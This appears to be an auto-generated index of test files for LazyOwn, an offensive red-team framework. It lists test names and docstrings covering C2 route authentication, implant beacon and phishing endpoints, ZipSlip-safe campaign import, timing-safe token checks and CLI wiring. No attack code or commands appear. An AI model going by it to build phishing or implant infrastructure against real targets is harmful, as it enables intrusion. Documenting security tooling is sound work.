- `test_validate_tls_unknown_library` (line 318) `def test_validate_tls_unknown_library(self)`
- `test_validate_dns_enabled_missing_domain` (line 327) `def test_validate_dns_enabled_missing_domain(self)`
- `test_validate_dns_invalid_encoding` (line 333) `def test_validate_dns_invalid_encoding(self)`
- `test_validate_dns_disabled_skips` (line 339) `def test_validate_dns_disabled_skips(self)`
- `test_validate_dns_invalid_domain_format` (line 344) `def test_validate_dns_invalid_domain_format(self)`
- `test_validate_smb_missing_pipe_name` (line 350) `def test_validate_smb_missing_pipe_name(self)`
- `test_validate_smb_disabled_skips` (line 356) `def test_validate_smb_disabled_skips(self)`
- `test_validate_smb_username_without_domain` (line 361) `def test_validate_smb_username_without_domain(self)`
- `test_validate_websocket_invalid_protocol` (line 372) `def test_validate_websocket_invalid_protocol(self)`
- `test_validate_websocket_disabled_skips` (line 378) `def test_validate_websocket_disabled_skips(self)`
- `test_validate_all_returns_dict` (line 383) `def test_validate_all_returns_dict(self)`
- `test_default_engine_has_http_slot` (line 398) `def test_default_engine_has_http_slot(self)`
- `test_engine_with_all_transports` (line 402) `def test_engine_with_all_transports(self)`
- `test_engine_validate_returns_errors_for_invalid_dns` (line 412) `def test_engine_validate_returns_errors_for_invalid_dns(self)`
- `test_engine_rotate_through_transports` (line 420) `def test_engine_rotate_through_transports(self)`
- `test_engine_get_active_profile_dict` (line 427) `def test_engine_get_active_profile_dict(self)`
- `test_engine_get_all_profiles_dict` (line 433) `def test_engine_get_all_profiles_dict(self)`
- `test_engine_from_dict` (line 442) `def test_engine_from_dict(self)`
- `test_engine_from_payload` (line 455) `def test_engine_from_payload(self)`
- `test_engine_empty_payload_falls_back_to_defaults` (line 465) `def test_engine_empty_payload_falls_back_to_defaults(self)`

#### `test_c2_route_auth.py`
**Path:** `tests/test_c2_route_auth.py`
**File Doc:** *Guard the C2 route-level auth boundaries.  Every operator-facing dashboard/data endpoint must require authentication. The intentionally-public surface (beacon channel, phishing victims, login, health/metrics) must remain open so implant callbacks and campaign links keep working. This test parses ``lazyc2.py`` with the AST so a missing or accidentally-removed decorator fails deterministically.*

**Functions:**
- `_route_decorators` (line 75) `def _route_decorators()` - *Map every ``@app.route(path)`` to its non-route decorator stack.*
- `routes` (line 106) `def routes()`
- `test_protected_endpoints_require_auth` (line 110) `def test_protected_endpoints_require_auth(routes)`
- `test_public_endpoints_stay_open` (line 115) `def test_public_endpoints_stay_open(routes)`
- `test_all_protected_endpoints_exist` (line 120) `def test_all_protected_endpoints_exist(routes)`

#### `test_c2_shell_lazy.py`
**Path:** `tests/test_c2_shell_lazy.py`
**File Doc:** *The C2 must not build the CLI shell at module load.  SDD contract: ``lazyc2.py`` runs as ``__main__`` and previously did ``from lazyown import LazyOwnShell`` at the top level plus an eager ``shell = LazyOwnShell()``. Module load must not touch the CLI tree: the shell is created on first use by ``_init_shell`` (same boot sequence: StringIO stdout, ``onecmd("p")``, ``onecmd("create_session_json")``) and every existing ``shell.*`` call site keeps working through the ``_LazyShellProxy`` stand-in.*

**Classes:**
- `TestNoEagerCliBuild` (line 62) `class TestNoEagerCliBuild`
- `TestLazyShellProxy` (line 103) `class TestLazyShellProxy`
- `_FakeShell` (line 40) `class _FakeShell`

**Functions:**
- `_module_tree` (line 21) `def _module_tree()`
- `_load_proxy_class` (line 25) `def _load_proxy_class()` - *Exec the ``_LazyShellProxy`` class definition in isolation.

Returns:
    The class object plus the namespace it was exec'd with.*
- `_init_shell` (line 51) `def _init_shell()`

**Methods:**
- `test_no_lazyown_import_at_top_level` (line 63) `def test_no_lazyown_import_at_top_level(self)`
- `test_no_eager_shell_build` (line 76) `def test_no_eager_shell_build(self)`
- `test_lazy_accessor_with_boot_sequence` (line 88) `def test_lazy_accessor_with_boot_sequence(self)`
- `test_reads_forward_and_share_target` (line 104) `def test_reads_forward_and_share_target(self)`
- `test_writes_forward` (line 111) `def test_writes_forward(self)`
- `test_shell_output_attribute` (line 118) `def test_shell_output_attribute(self)`
- `__init__` (line 41) `def __init__(self)`
- `one_cmd` (line 45) `def one_cmd(self, command)`

#### `test_campaign_import_safety.py`
**Path:** `tests/test_campaign_import_safety.py`
**File Doc:** *Campaign import trust boundaries hold against hostile packages.  SDD contract: ``core.safe_import`` owns ZipSlip-safe extraction, identifier validation and column filtering. ``cli/commands/campaign`` must route its import path through these helpers instead of raw ``extractall`` and interpolated source columns.*

**Classes:**
- `TestZipSlip` (line 35) `class TestZipSlip`
- `TestColumnFiltering` (line 55) `class TestColumnFiltering`
- `TestCopyTree` (line 80) `class TestCopyTree`
- `TestCampaignRoutesThroughHelpers` (line 96) `class TestCampaignRoutesThroughHelpers`

**Functions:**
- `_make_evil_zip` (line 27) `def _make_evil_zip(path)`

**Methods:**
- `test_evil_members_skipped` (line 36) `def test_evil_members_skipped(self, tmp_path)`
- `test_legit_tree_extracted` (line 46) `def test_legit_tree_extracted(self, tmp_path)`
- `test_identifier_policy` (line 56) `def test_identifier_policy(self)`
- `test_unknown_and_hostile_dropped` (line 62) `def test_unknown_and_hostile_dropped(self)`
- `test_order_preserved` (line 67) `def test_order_preserved(self)`
- `test_filtered_insert_roundtrip` (line 70) `def test_filtered_insert_roundtrip(self, tmp_path)`
- `test_symlinks_not_followed` (line 81) `def test_symlinks_not_followed(self, tmp_path)`
- `test_no_raw_extractall_on_import` (line 97) `def test_no_raw_extractall_on_import(self)`
- `test_uses_safe_helpers` (line 108) `def test_uses_safe_helpers(self)`

#### `test_categories.py`
**Path:** `tests/test_categories.py`
**File Doc:** *Tests for modules/categories.py — category constants and look-up tables.*

**Classes:**
- `TestCategoryConstants` (line 28) `class TestCategoryConstants`
- `TestShortToCategory` (line 78) `class TestShortToCategory`
- `TestCategoryToShort` (line 128) `class TestCategoryToShort`
- `TestAllCategories` (line 154) `class TestAllCategories`
- `TestBijectionInvariant` (line 172) `class TestBijectionInvariant`

**Methods:**
- `test_all_recon_values` (line 29) `def test_all_recon_values(self)`
- `test_all_scanning_values` (line 32) `def test_all_scanning_values(self)`
- `test_all_exploitation_values` (line 35) `def test_all_exploitation_values(self)`
- `test_all_post_exploitation_values` (line 38) `def test_all_post_exploitation_values(self)`
- `test_all_persistence_values` (line 41) `def test_all_persistence_values(self)`
- `test_all_privesc_values` (line 44) `def test_all_privesc_values(self)`
- `test_all_cred_access_values` (line 47) `def test_all_cred_access_values(self)`
- `test_all_lateral_values` (line 50) `def test_all_lateral_values(self)`
- `test_all_exfil_values` (line 53) `def test_all_exfil_values(self)`
- `test_all_c2_values` (line 56) `def test_all_c2_values(self)`
- `test_all_reporting_values` (line 59) `def test_all_reporting_values(self)`
- `test_all_misc_values` (line 62) `def test_all_misc_values(self)`
- `test_all_lua_values` (line 65) `def test_all_lua_values(self)`
- `test_all_ai_values` (line 68) `def test_all_ai_values(self)`
- `test_all_cloud_values` (line 71) `def test_all_cloud_values(self)`
- `test_all_container_values` (line 74) `def test_all_container_values(self)`
- `test_recon_to_category` (line 79) `def test_recon_to_category(self)`
- `test_scanning_to_category` (line 82) `def test_scanning_to_category(self)`
- `test_enum_to_scanning_category` (line 85) `def test_enum_to_scanning_category(self)`
- `test_exploit_to_category` (line 88) `def test_exploit_to_category(self)`
- `test_post_to_category` (line 91) `def test_post_to_category(self)`
- `test_persistence_to_category` (line 94) `def test_persistence_to_category(self)`
- `test_privesc_to_category` (line 97) `def test_privesc_to_category(self)`
- `test_credential_to_category` (line 100) `def test_credential_to_category(self)`
- `test_lateral_to_category` (line 103) `def test_lateral_to_category(self)`
- `test_exfil_to_category` (line 106) `def test_exfil_to_category(self)`
- `test_c2_to_category` (line 109) `def test_c2_to_category(self)`
- `test_reporting_to_category` (line 112) `def test_reporting_to_category(self)`
- `test_misc_to_category` (line 115) `def test_misc_to_category(self)`
- `test_ai_to_category` (line 118) `def test_ai_to_category(self)`
- `test_unknown_short_name_raises_key_error` (line 121) `def test_unknown_short_name_raises_key_error(self)`
- `test_recon_reverse_lookup` (line 129) `def test_recon_reverse_lookup(self)`
- `test_exploitation_reverse_lookup` (line 132) `def test_exploitation_reverse_lookup(self)`
- `test_privesc_reverse_lookup` (line 135) `def test_privesc_reverse_lookup(self)`
- `test_c2_reverse_lookup` (line 138) `def test_c2_reverse_lookup(self)`
- `test_reverse_lookup_roundtrip` (line 141) `def test_reverse_lookup_roundtrip(self)`
- `test_reverse_lookup_less_than_or_equal_forward` (line 150) `def test_reverse_lookup_less_than_or_equal_forward(self)`
- `test_every_short_key_in_all_categories` (line 155) `def test_every_short_key_in_all_categories(self)`
- `test_all_categories_non_empty` (line 161) `def test_all_categories_non_empty(self)`
- `test_no_duplicate_all_categories` (line 165) `def test_no_duplicate_all_categories(self)`
- `test_all_categories_count` (line 168) `def test_all_categories_count(self)`
- `test_forward_and_reverse_match` (line 173) `def test_forward_and_reverse_match(self)`

#### `test_chain_mode.py`
**Path:** `tests/test_chain_mode.py`
**File Doc:** *Tests for cli/chain_mode.py.  The chain prompt engine is pure coordination: suggestions come from an injected resolver, input from an injected ``input_fn`` and output from an injected ``print_fn``, so every branch is exercised with fakes — no monkeypatching and no cmd2 coupling. Persistence is tested against a temporary sessions directory.*

**Classes:**
- `_Step` (line 36) `class _Step` - *Duck-typed resolver step matching cli.command_chain.NextStep.*

**Functions:**
- `_resolver` (line 45) `def _resolver()`
- `_engine` (line 52) `def _engine(resolver)`
- `test_suggestion_from_step_and_string` (line 85) `def test_suggestion_from_step_and_string()`
- `test_step_none_when_disabled` (line 90) `def test_step_none_when_disabled()`
- `test_step_none_when_not_interactive` (line 95) `def test_step_none_when_not_interactive()`
- `test_step_none_for_skip_verbs` (line 101) `def test_step_none_for_skip_verbs(verb)`
- `test_enter_runs_top_suggestion` (line 106) `def test_enter_runs_top_suggestion()`
- `test_number_selects_ranked_alternative` (line 116) `def test_number_selects_ranked_alternative()`
- `test_override_runs_operator_command` (line 126) `def test_override_runs_operator_command()`
- `test_skip_keeps_chain_mode_enabled` (line 136) `def test_skip_keeps_chain_mode_enabled()`
- `test_exit_words_disable_chain_mode` (line 144) `def test_exit_words_disable_chain_mode(word)`
- `test_no_suggestions_enter_skips_custom_command_runs` (line 151) `def test_no_suggestions_enter_skips_custom_command_runs()`
- `test_invalid_number_re_prompts_then_skips` (line 160) `def test_invalid_number_re_prompts_then_skips()`
- `test_invalid_number_re_prompts_then_accepts_valid_pick` (line 168) `def test_invalid_number_re_prompts_then_accepts_valid_pick()`
- `test_keyboard_interrupt_disables` (line 178) `def test_keyboard_interrupt_disables(tmp_path)`
- `test_auto_pause_after_max_steps` (line 195) `def test_auto_pause_after_max_steps(tmp_path)`
- `test_resolver_failure_degrades_to_no_suggestions` (line 211) `def test_resolver_failure_degrades_to_no_suggestions()`
- `test_store_roundtrip_and_missing` (line 221) `def test_store_roundtrip_and_missing(tmp_path)`
- `test_store_survives_malformed_file` (line 230) `def test_store_survives_malformed_file(tmp_path)`
- `test_engine_reads_persisted_state` (line 239) `def test_engine_reads_persisted_state(tmp_path)`
- `test_persist_toggle_writes_state_file` (line 252) `def test_persist_toggle_writes_state_file(tmp_path)`
- `test_prompt_exit_words_persist_off` (line 267) `def test_prompt_exit_words_persist_off(tmp_path)`
- `resolve` (line 46) `def resolve(cmd, phase)`
- `fake_input` (line 63) `def fake_input(prompt)`
- `raise_ki` (line 179) `def raise_ki(prompt)`
- `broken` (line 212) `def broken(cmd, phase)`

**Methods:**
- `__init__` (line 39) `def __init__(self, name, source, reason)`

#### `test_ci_strict.py`
**Path:** `tests/test_ci_strict.py`
**File Doc:** *Contract tests for the strict CI workflow.  The repository must keep the CI workflow honest. The tests below verify that the strict workflow exists, that it does not swallow failures through ``|| true`` or ``continue-on-error: true``, and that it executes the lint, type, security, and test analyzers the contract defines. The tests were written by the tdd agent and pass through the bdd agent that ships the strict workflow file.*

**Functions:**
- `test_strict_workflow_exists` (line 21) `def test_strict_workflow_exists()` - *The strict workflow file is present in the repository.*
- `test_strict_workflow_contains_no_swallow_flags` (line 26) `def test_strict_workflow_contains_no_swallow_flags()` - *The strict workflow does not contain the failure swallow flags.*
- `test_strict_workflow_runs_lint` (line 38) `def test_strict_workflow_runs_lint()` - *The strict workflow runs ruff on the project.*
- `test_strict_workflow_runs_type_check` (line 44) `def test_strict_workflow_runs_type_check()` - *The strict workflow runs mypy on the project.*
- `test_strict_workflow_runs_security_scan` (line 50) `def test_strict_workflow_runs_security_scan()` - *The strict workflow runs bandit on the project.*
- `test_strict_workflow_runs_pytest` (line 56) `def test_strict_workflow_runs_pytest()` - *The strict workflow runs the test suite with pytest.*
- `test_strict_workflow_targets_main_branch` (line 62) `def test_strict_workflow_targets_main_branch()` - *The strict workflow targets main and dev branches on push and pull request.*
- `test_old_swallow_workflow_is_removed` (line 68) `def test_old_swallow_workflow_is_removed()` - *The legacy test.yml workflow must not contain the swallow flags.*
- `test_ci_workflow_has_no_swallowed_quality_gate` (line 83) `def test_ci_workflow_has_no_swallowed_quality_gate()` - *The main CI workflow must not swallow a quality gate.*
- `test_ci_workflow_gates_severity_and_types` (line 91) `def test_ci_workflow_gates_severity_and_types()` - *The main CI workflow gates high-severity bandit and typed mypy.*

#### `test_claudemd_consistency.py`
**Path:** `tests/test_claudemd_consistency.py`
**File Doc:** *Guard against drift between CLAUDE.md numeric claims and reality.  CLAUDE.md publishes a handful of small facts about the repository (test count, presence of optional artefacts) that historically went stale silently. These assertions keep them honest. Each fact is a single assertion so a future drift only breaks the one line that needs editing.*

**Functions:**
- `claude_md_text` (line 22) `def claude_md_text()`
- `test_claude_md_reports_actual_test_file_count` (line 28) `def test_claude_md_reports_actual_test_file_count(claude_md_text)` - *The ``tests/`` row in §2 must match the real ``test_*.py`` file count.*
- `test_claude_md_does_not_reference_deduplicated_config` (line 41) `def test_claude_md_does_not_reference_deduplicated_config(claude_md_text)` - *The obsolete ``two class Config defs`` note must not return.*

#### `test_claudemd_size.py`
**Path:** `tests/test_claudemd_size.py`
**File Doc:** *Enforce a hard cap on ``CLAUDE.md`` size.  ``CLAUDE.md`` is loaded into every assistant conversation. The Anthropic prompt cache only pays off when the document fits comfortably in the warm-cache window; beyond ~40 KB the file becomes a tax on every turn and the marginal context is rarely worth the cost. Long-form material belongs in the per-directory README files, with CLAUDE.md keeping only the durable, cross-cutting context.  This test is intentionally a single assertion so a future drift breaks exactly one line.*

**Functions:**
- `test_claude_md_under_size_budget` (line 22) `def test_claude_md_under_size_budget()` - *``CLAUDE.md`` must stay under the 40 KB prompt-cache budget.*

#### `test_cli_assign.py`
**Path:** `tests/test_cli_assign.py`
**File Doc:** *``do_assign`` / ``do_show`` behaviour and shell wiring tests.  Covers operator-visible behaviour of the ``assign`` and ``show`` commands:  - :func:`cli.assign.apply_assign` validates, mutates and persists. - :func:`cli.show.format_payload` renders deterministic output. - ``lazyown.py`` wires both helpers into ``do_assign`` / ``do_show`` and adds ``complete_assign`` + an aliases refresh after every payload write.  The shell-side checks are static (regex over the source) so the tests do not have to boot ``LazyOwnShell`` or import ``utils`` (which reads ``sys.argv`` at module load time).*

**Classes:**
- `TestApplyAssign` (line 34) `class TestApplyAssign`
- `TestFormatPayload` (line 105) `class TestFormatPayload`
- `TestLazyOwnAssignWiring` (line 163) `class TestLazyOwnAssignWiring`
- `TestCompleteAssignBehaviour` (line 230) `class TestCompleteAssignBehaviour` - *Smoke-test the matching logic in isolation, without booting cmd2.*

**Functions:**
- `_add_repo_root_to_syspath` (line 29) `def _add_repo_root_to_syspath()`
- `saver` (line 72) `def saver(p)`

**Methods:**
- `test_returns_true_when_key_exists` (line 35) `def test_returns_true_when_key_exists(self)`
- `test_returns_false_when_key_missing` (line 42) `def test_returns_false_when_key_missing(self)`
- `test_does_not_invoke_save_on_failure` (line 49) `def test_does_not_invoke_save_on_failure(self)`
- `test_invokes_save_on_success` (line 57) `def test_invokes_save_on_success(self)`
- `test_save_receives_mutated_dict` (line 66) `def test_save_receives_mutated_dict(self)`
- `test_save_optional` (line 78) `def test_save_optional(self)`
- `test_persists_to_disk_via_save_payload` (line 85) `def test_persists_to_disk_via_save_payload(self, tmp_path)` - *End-to-end with the real ``core.config.save_payload``.*
- `test_empty_payload_returns_empty_string` (line 106) `def test_empty_payload_returns_empty_string(self)`
- `test_renders_keys_sorted` (line 111) `def test_renders_keys_sorted(self)`
- `test_aligns_column_to_widest_key` (line 120) `def test_aligns_column_to_widest_key(self)`
- `test_none_values_render_as_empty` (line 130) `def test_none_values_render_as_empty(self)`
- `test_keys_whitelist_filters_output` (line 136) `def test_keys_whitelist_filters_output(self)`
- `test_missing_whitelist_keys_render_as_empty` (line 143) `def test_missing_whitelist_keys_render_as_empty(self)`
- `test_int_value_rendered_as_string` (line 150) `def test_int_value_rendered_as_string(self)`
- `test_no_ansi_codes` (line 156) `def test_no_ansi_codes(self)`
- `src` (line 165) `def src(self)`
- `migrated_src` (line 169) `def migrated_src(self)` - *Text of the module that now defines ``do_assign``/``do_show``/``do_payload``.

The monolith split moved these verbs into a phase ``CommandSet``
while ``complete_assign`` stayed on ``LazyOwnShell``.*
- `test_imports_apply_assign` (line 177) `def test_imports_apply_assign(self, migrated_src)`
- `test_imports_save_payload_from_core` (line 180) `def test_imports_save_payload_from_core(self, migrated_src)`
- `test_imports_format_payload` (line 183) `def test_imports_format_payload(self, migrated_src)`
- `test_do_assign_calls_apply_assign` (line 186) `def test_do_assign_calls_apply_assign(self, migrated_src)`
- `test_do_assign_refreshes_aliases` (line 191) `def test_do_assign_refreshes_aliases(self, migrated_src)`
- `test_do_assign_no_longer_directly_mutates_params` (line 196) `def test_do_assign_no_longer_directly_mutates_params(self, migrated_src)`
- `test_complete_assign_defined` (line 202) `def test_complete_assign_defined(self, src)`
- `test_complete_assign_reads_self_params` (line 205) `def test_complete_assign_reads_self_params(self, src)`
- `test_do_show_uses_format_payload` (line 209) `def test_do_show_uses_format_payload(self, migrated_src)`
- `test_do_payload_refreshes_aliases` (line 213) `def test_do_payload_refreshes_aliases(self, migrated_src)`
- `_extract_method_body` (line 219) `def _extract_method_body(src, name)`
- `test_returns_keys_starting_with_text` (line 233) `def test_returns_keys_starting_with_text(self)`
- `test_no_completion_for_value_position` (line 250) `def test_no_completion_for_value_position(self)`

#### `test_cli_auth_remember.py`
**Path:** `tests/test_cli_auth_remember.py`
**File Doc:** *Remember-me token comparison must be timing-safe.  SDD contract: ``try_auto_login`` compares the operator-supplied token from payload.json against the stored per-user token. A ``==`` comparison leaks timing information about the secret; the comparison must use ``hmac.compare_digest`` like the C2 auth paths.*

**Classes:**
- `TestRememberMeComparison` (line 48) `class TestRememberMeComparison`

**Functions:**
- `isolated_auth` (line 24) `def isolated_auth(tmp_path, monkeypatch)` - *Point the auth store at temporary files.*

**Methods:**
- `test_valid_token_logs_in` (line 49) `def test_valid_token_logs_in(self, isolated_auth)`
- `test_wrong_token_rejected` (line 63) `def test_wrong_token_rejected(self, isolated_auth)`
- `test_comparison_is_timing_safe` (line 76) `def test_comparison_is_timing_safe(self)`
- `test_save_delegates_to_canonical_writer` (line 92) `def test_save_delegates_to_canonical_writer(self)`
- `test_save_writes_valid_json_and_audits` (line 109) `def test_save_writes_valid_json_and_audits(self, isolated_auth)`

#### `test_cli_command_sets.py`
**Path:** `tests/test_cli_command_sets.py`
**File Doc:** *``cli`` package declarativeness and ``CommandSet`` registration tests.  Validate the ``cli/`` package layout, the YAML-driven aliases loader and the ``CommandSet`` registry so ``lazyown.py`` no longer needs an inline aliases dict yet preserves every legacy alias name and substitution.*

**Classes:**
- `TestAliasYamlIntegrity` (line 177) `class TestAliasYamlIntegrity`
- `TestAliasLoaderSubstitution` (line 208) `class TestAliasLoaderSubstitution` - *Eager-substitution path; ``lazy=True`` (the new default) is covered in
tests/test_cli_enhancements.py. These tests exercise the legacy contract
by passing ``lazy=False`` explicitly.*
- `TestLazyOwnRefactor` (line 297) `class TestLazyOwnRefactor`
- `TestCommandSetDiscovery` (line 324) `class TestCommandSetDiscovery`
- `TestRegisterCommandSets` (line 356) `class TestRegisterCommandSets`
- `TestLazyOwnStillParses` (line 394) `class TestLazyOwnStillParses`
- `TestPrivateHelperForwarding` (line 399) `class TestPrivateHelperForwarding` - *LazyOwnCommandSet forwards single-underscore shell helpers.

The monolith split left several private helpers (``_scope_save``,
``_load_adversaries``, ...) on ``LazyOwnShell`` while their ``do_*``
callers moved into CommandSets. ``__getattr__`` must forward those
single-underscore reads to the bound shell, stay inert before
registration, and still refuse dunder / ``complete_`` probes.*
- `_Bare` (line 362) `class _Bare(Cmd)`
- `_ExplosiveCommandSet` (line 374) `class _ExplosiveCommandSet(CommandSet)`
- `_Bare` (line 386) `class _Bare(Cmd)`
- `_Probe` (line 414) `class _Probe(LazyOwnCommandSet)`
- `_Shell` (line 427) `class _Shell(Cmd)`

**Functions:**
- `_add_repo_root_to_syspath` (line 24) `def _add_repo_root_to_syspath()`
- `_load_yaml` (line 29) `def _load_yaml()`
- `_legacy_alias_keys_from_lazyown` (line 34) `def _legacy_alias_keys_from_lazyown()` - *Canonical snapshot of the YAML alias keys.

The inline dict in ``lazyown.py`` was replaced by a YAML-driven loader.
This snapshot is embedded so the test does not depend on git or the
previous file revision. The monolith split renamed three aliases that
collided with newly promoted commands (``loot`` -> ``loot2``,
``trace`` -> ``trace_kernel``, ``lol`` -> ``lol_list``); the set below
reflects the post-split canonical alias names.*
- `fake_iter` (line 378) `def fake_iter()`

**Methods:**
- `test_yaml_loads` (line 178) `def test_yaml_loads(self)`
- `test_yaml_keys_match_legacy_set` (line 183) `def test_yaml_keys_match_legacy_set(self)`
- `test_yaml_count_is_125` (line 191) `def test_yaml_count_is_125(self)`
- `test_all_values_are_strings` (line 194) `def test_all_values_are_strings(self)`
- `test_vuln_alias_carries_ansi_escape` (line 198) `def test_vuln_alias_carries_ansi_escape(self)`
- `test_ls_is_unchanged` (line 201) `def test_ls_is_unchanged(self)`
- `test_q_is_exit` (line 204) `def test_q_is_exit(self)`
- `test_load_aliases_substitutes_payload_values` (line 214) `def test_load_aliases_substitutes_payload_values(self)`
- `test_missing_keys_substitute_to_empty_string` (line 236) `def test_missing_keys_substitute_to_empty_string(self)`
- `test_none_values_substitute_to_empty_string` (line 243) `def test_none_values_substitute_to_empty_string(self)`
- `test_aliases_with_no_placeholders_unchanged` (line 249) `def test_aliases_with_no_placeholders_unchanged(self)`
- `test_loader_rejects_non_mapping` (line 257) `def test_loader_rejects_non_mapping(self, tmp_path)`
- `test_loader_rejects_non_string_value` (line 265) `def test_loader_rejects_non_string_value(self, tmp_path)`
- `test_loader_handles_empty_file` (line 273) `def test_loader_handles_empty_file(self, tmp_path)`
- `test_real_yaml_loads_with_real_payload` (line 280) `def test_real_yaml_loads_with_real_payload(self)`
- `test_lazy_default_preserves_placeholders` (line 289) `def test_lazy_default_preserves_placeholders(self)`
- `lazyown_text` (line 299) `def lazyown_text(self)`
- `test_no_inline_aliases_dict_with_entries` (line 302) `def test_no_inline_aliases_dict_with_entries(self, lazyown_text)`
- `test_imports_cli_aliases_loader` (line 311) `def test_imports_cli_aliases_loader(self, lazyown_text)`
- `test_imports_cli_registry` (line 314) `def test_imports_cli_registry(self, lazyown_text)`
- `test_init_populates_aliases_at_runtime` (line 317) `def test_init_populates_aliases_at_runtime(self, lazyown_text)`
- `test_init_registers_command_sets` (line 320) `def test_init_registers_command_sets(self, lazyown_text)`
- `test_discovery_excludes_underscore_modules` (line 325) `def test_discovery_excludes_underscore_modules(self)`
- `test_discovers_diagnostics_pilot` (line 331) `def test_discovers_diagnostics_pilot(self)`
- `test_pilot_commandset_subclasses_base` (line 337) `def test_pilot_commandset_subclasses_base(self)`
- `test_pilot_commandset_declares_phase` (line 343) `def test_pilot_commandset_declares_phase(self)`
- `test_pilot_commandset_has_do_methods` (line 348) `def test_pilot_commandset_has_do_methods(self)`
- `test_registers_on_a_minimal_cmd2_instance` (line 357) `def test_registers_on_a_minimal_cmd2_instance(self)`
- `test_register_skips_failing_commandset_without_aborting` (line 369) `def test_register_skips_failing_commandset_without_aborting(self, monkeypatch)`
- `test_ast_parse` (line 395) `def test_ast_parse(self)`
- `_probe_class` (line 409) `def _probe_class(self)`
- `_shell_class` (line 424) `def _shell_class(self)`
- `test_private_helper_inert_before_registration` (line 437) `def test_private_helper_inert_before_registration(self)`
- `test_private_helper_forwards_after_registration` (line 442) `def test_private_helper_forwards_after_registration(self)`
- `test_dunder_still_refused_after_registration` (line 448) `def test_dunder_still_refused_after_registration(self)`
- `test_missing_private_raises_not_utils_fallback` (line 455) `def test_missing_private_raises_not_utils_fallback(self)`
- `__init__` (line 375) `def __init__(self)`
- `do_probe` (line 419) `def do_probe(self, line)`
- `__init__` (line 428) `def __init__(self)`
- `_scope_helper` (line 432) `def _scope_helper(self)`

#### `test_cli_enhancements.py`
**Path:** `tests/test_cli_enhancements.py`
**File Doc:** *Tests for cli/cli_enhancements.py and the audit CommandSet.  Each primitive is small and pure; tests cover happy + sad paths without spinning up cmd2 except where strictly required (audit CommandSet wiring).*

**Classes:**
- `FakeIO` (line 297) `class FakeIO`
- `_ShellLike` (line 349) `class _ShellLike`
- `_MiniShell` (line 371) `class _MiniShell` - *Just enough cmd2 surface to instantiate AuditCommandSet helpers.*

**Functions:**
- `fixture_index` (line 39) `def fixture_index()`
- `test_fuzzy_exact_match_scores_one` (line 50) `def test_fuzzy_exact_match_scores_one(fixture_index)`
- `test_fuzzy_alias_resolves_to_command` (line 56) `def test_fuzzy_alias_resolves_to_command(fixture_index)`
- `test_fuzzy_substring_match` (line 62) `def test_fuzzy_substring_match(fixture_index)`
- `test_fuzzy_empty_query_lists_all` (line 67) `def test_fuzzy_empty_query_lists_all(fixture_index)`
- `test_fuzzy_returns_empty_on_garbage` (line 72) `def test_fuzzy_returns_empty_on_garbage(fixture_index)`
- `test_completer_set_lists_payload_keys` (line 80) `def test_completer_set_lists_payload_keys()`
- `test_completer_target_lists_targets_and_rhost` (line 89) `def test_completer_target_lists_targets_and_rhost()`
- `test_completer_wordlist_keys_only_when_set` (line 101) `def test_completer_wordlist_keys_only_when_set()`
- `test_completer_addon_lister_used_for_run` (line 108) `def test_completer_addon_lister_used_for_run()`
- `test_completer_filters_by_partial` (line 116) `def test_completer_filters_by_partial()`
- `test_completer_ignores_unknown_command` (line 123) `def test_completer_ignores_unknown_command()`
- `test_dynamic_resolver_renders_against_current_payload` (line 132) `def test_dynamic_resolver_renders_against_current_payload()`
- `test_dynamic_resolver_missing_keys_become_empty` (line 140) `def test_dynamic_resolver_missing_keys_become_empty()`
- `test_dynamic_resolver_payload_changes_propagate` (line 146) `def test_dynamic_resolver_payload_changes_propagate()`
- `test_dynamic_resolver_passes_through_literal_braces` (line 155) `def test_dynamic_resolver_passes_through_literal_braces()`
- `test_load_aliases_lazy_preserves_placeholders` (line 162) `def test_load_aliases_lazy_preserves_placeholders(tmp_path)`
- `test_load_aliases_eager_substitutes` (line 169) `def test_load_aliases_eager_substitutes(tmp_path)`
- `test_hot_reloader_detects_new_file` (line 179) `def test_hot_reloader_detects_new_file(tmp_path)`
- `test_hot_reloader_detects_modification` (line 191) `def test_hot_reloader_detects_modification(tmp_path)`
- `test_hot_reloader_ignores_non_addon_files` (line 208) `def test_hot_reloader_ignores_non_addon_files(tmp_path)`
- `test_status_tail_extracts_open_ports` (line 221) `def test_status_tail_extracts_open_ports()`
- `test_status_tail_handles_empty` (line 237) `def test_status_tail_handles_empty()`
- `test_status_tail_no_ports_falls_back_to_stats` (line 244) `def test_status_tail_no_ports_falls_back_to_stats()`
- `test_transcript_grep_matches_recent_output` (line 254) `def test_transcript_grep_matches_recent_output(tmp_path)`
- `test_transcript_grep_command_filter` (line 262) `def test_transcript_grep_command_filter(tmp_path)`
- `test_transcript_grep_invalid_regex` (line 270) `def test_transcript_grep_invalid_regex(tmp_path)`
- `test_transcript_persists_and_reloads` (line 277) `def test_transcript_persists_and_reloads(tmp_path)`
- `test_transcript_capacity` (line 285) `def test_transcript_capacity(tmp_path)`
- `test_form_collects_values_with_defaults` (line 311) `def test_form_collects_values_with_defaults()`
- `test_form_options_constraint_falls_back_to_default` (line 325) `def test_form_options_constraint_falls_back_to_default()`
- `test_form_required_reprompted` (line 336) `def test_form_required_reprompted()`
- `test_commands_from_cmd2_shell_extracts_doc_and_aliases` (line 359) `def test_commands_from_cmd2_shell_extracts_doc_and_aliases()`
- `test_audit_fz_command_emits_results` (line 399) `def test_audit_fz_command_emits_results(tmp_path)`
- `test_audit_status_tail_reports_no_evidence` (line 409) `def test_audit_status_tail_reports_no_evidence(tmp_path)`
- `test_audit_grep_log_handles_empty_store` (line 419) `def test_audit_grep_log_handles_empty_store(tmp_path)`
- `test_audit_form_unknown_lists_known` (line 429) `def test_audit_form_unknown_lists_known(tmp_path)`

**Methods:**
- `__init__` (line 298) `def __init__(self, replies)`
- `prompt` (line 302) `def prompt(self, message, default)`
- `emit` (line 307) `def emit(self, line)`
- `do_lazynmap` (line 352) `def do_lazynmap(self, _)` - *Full TCP/UDP nmap with vuln scripts.*
- `do_gobuster` (line 355) `def do_gobuster(self, _)` - *Directory brute-force.*
- `__init__` (line 374) `def __init__(self, tmp)`
- `poutput` (line 386) `def poutput(self, msg)`
- `get_all_commands` (line 389) `def get_all_commands(self)`
- `do_lazynmap` (line 392) `def do_lazynmap(self, _)` - *nmap vuln scan*
- `do_gobuster` (line 395) `def do_gobuster(self, _)` - *dir brute*

#### `test_collab_and_onboarding.py`
**Path:** `tests/test_collab_and_onboarding.py`
**File Doc:** *tests/test_collab_and_onboarding.py  Tests for: - Gap #2 (team server): collab_bp UI route, SSE stream, operator registry, lock manager, event bus, and publish endpoint. - Gap #3 (onboarding): QUICKSTART.md completeness, wizard module contract, collab_join CLI command structure.*

